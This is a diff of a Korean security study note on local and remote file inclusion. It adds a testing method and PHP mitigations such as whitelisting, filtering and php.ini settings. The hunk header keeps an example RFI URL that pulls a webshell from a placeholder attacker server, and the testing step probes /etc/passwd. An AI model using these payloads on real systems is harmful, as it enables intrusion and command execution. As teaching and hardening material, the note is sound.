

Before and after one commit to Echo-H4C/Echo, a Markdown page: 취약점 정리/LFI,RFI.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/취약점 정리/LFI,RFI.md
+++ b/취약점 정리/LFI,RFI.md
@@ -65,10 +65,34 @@ http://target.com/index.php?file=http://[ATTACKER_SERVER]/webshell.php?cmd=ls
 
 # 2. 점검 방법
 
+먼저 파일을 include 하는 기능을 찾는다. 그리고 서버 내부에 존재할만한 파일 이름(/etc/passwd, boot.ini 등)을 입력해보며 서버 내부의 파일이 include 가능한지 테스트한다.
+
 # 3. 대응 방안
+
+## 3.1. 화이트리스트를 사용한 검증
+
+파일을 include 하는 기능에 서버 내부에서 화이트리스트를 적용하여 특정 파일 이외에는 include 할 수 없도록 검증하여야 한다.
+
+## 3.2. 입력값 검증
+
+서버 내부의 다른 파일에 접근하기 위해 필요한 ../ 특수문자와 PHP Wrapper(php://, file:// 등)를 필터링한다. 다만, 해당 문자열들만 필터링할 경우 서버의 소스코드 파일은 보호할 수 없어 완벽한 대응 방안은 아니다.
+
+## 3.3. 서버 설정 변경 (PHP)
+
+php.ini 파일에서 다음과 같이 설정한다.
+
+```
+....
+allow_url_fopen = Off
+allow_url_include = Off
+display_errors = Off
+....
+```
 
 # 4. 참고
 
 - https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion
 
 - https://www.php.net/manual/en/wrappers.php
+
+- https://medium.com/@althubianymalek/exploring-php-wrappers-enhancing-php-capabilities-280a6af827b5
````
